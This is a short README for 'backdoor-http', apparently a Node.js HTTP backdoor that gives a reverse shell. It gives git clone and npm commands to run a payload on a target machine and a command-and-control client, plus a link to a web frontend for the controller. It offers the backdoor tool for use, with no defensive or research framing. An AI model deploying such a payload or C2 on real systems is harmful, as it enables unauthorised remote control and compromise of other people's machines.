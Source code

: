 # backdoor-http

Simple implementation in nodejs of http backdoor for revshell

## Start payload (target)

```bash
npm run payload
```

## Start C2 (client)

```bash
npm run c2
```

## Example

- Target:

```bash
git clone https://github.com/miguelzacca/backdoor-http.git
cd backdoor-http
npm run payload
```

- Client:

```bash
git clone https://github.com/miguelzacca/backdoor-http.git
cd backdoor-http
npm run c2
```

## Frontend (client)

https://backdoor-http.netlify.app
